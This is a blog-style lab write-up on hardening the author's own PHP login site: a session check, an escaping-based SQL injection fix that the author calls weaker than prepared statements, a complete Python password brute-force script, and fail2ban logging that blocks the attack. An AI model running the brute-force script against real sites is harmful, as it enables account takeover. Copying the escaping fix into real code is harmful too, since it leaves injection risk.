







This is the continuation of the web server and this part focuses more on securing the web server. If you have not read part 1, please consider reading it first. 


# Access Control
A challenge that I initially faced was if a user knew about the creds.php page, they could easily view the page without logging in. To address this issue, I used cookies to keep track of user sessions. If the username cookie is not set with a cookie, you will not be able to view the page.
```php

<?php
session_start();

if (!isset($_SESSION['username'])) {
	//set HTTP response status code 401 Unauthorized
	header('HTTP/1.1 401 Unauthorized');
	exit();
}
?>
<!DOCTYPE html>
<html>
<a href="logout.php">Logout</a>
<style>
h1 {
	text-align: center;
}
body {
	background-color: #9e8889;
	color: #ab250b;
}
</style>
	<title>Admin Portal</title>
	<h1>Matt.corp Admin Portal</h1>
	<p>Congrats to our newest Domain Admin Jack Robinson!</p>
	</html>
```


# SQL Injection

As mentioned in [part 1](../pages/webserver.html), the PHP code used to authenticate to the MySQL database is vulnerable. In the images below I used SQL injection to bypass the login page.



In order to address this issue I used a simple fix. In a real-world scenario, prepared statements should be used. 

```php
//Prevent SQL Injection
$entered_user = stripcslashes($entered_user);
$entered_pass = stripcslashes($entered_pass);
$entered_user = mysqli_real_escape_string($conn, $entered_user);
$entered_pass = mysqli_real_escape_string($conn, $entered_pass);
```


# Brute forcing

I created a python script to brute force the webserver. 

```python
#!/usr/bin/python3
import requests
import sys
from colorama import Fore , Back
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

#Check if syntax is correct 
if len(sys.argv) != 4:
    print(Back.BLACK + Fore.BLUE + "Invalid amount of arguments")
    print("Syntax: python3 brute2.py <url> <username> <password list>")
    sys.exit()

#Set the URL
IP = sys.argv[1]

# Check if URL is valid
def checkURL(IP):
    r = requests.head(IP, verify=False)
    if r.status_code != 200:
        print("Invalid url quitting...")
    else:
        print("*" * 50)
        print(f"Performing Attack Against: {IP}")
        print("*" * 50)
checkURL(IP)


#If URL is up Read Input from password list and Get username.
passList = open(sys.argv[3], 'r', errors="ignore")
password = passList.readlines()
username = sys.argv[2]


#Perform attack against url.
def Main():
    for i in password:
        payload = {'uname':f'{username}', 'passwd': i.strip()}
        url = requests.post(IP,data=payload, verify=False)
        if "Incorrect Username or Password!" not in url.text:
            print("The password is:" , Fore.RED + f"{i}")
            break
            passlist.close()
    #Inform user if no Password is found
    else:
        passList.close()
        print(Fore.RED + "No Password Matched The Provided Username")
    

Main()
```


# Fail2ban and Logging
After successfully bruteforcing the password. I enabled logging on the server and configured fail2ban to block IP addresses. 

If a user enters the wrong password this log entry is made
```php
error_log("[Failed Login] from " . $_SERVER['REMOTE_ADDR'] . " for user: " . $entered_user . " at " . date("Y-m-d H:i:s\n") , 3, "/var/log/website/auth.log");
```
and if they enter the right password this log entry is made
```php
error_log("[Successful Login] from " . $_SERVER['REMOTE_ADDR'] . " for user: " . $entered_user . " at " . date("Y-m-d H:i:s\n") , 3, "/var/log/website/auth.log");
```


I created a custom jail and filter using fail2ban to check for 5 failed logins with 1 minute.


I then performed the brute force attack again and before it was able to detect the password the IP got blocked via UFW.





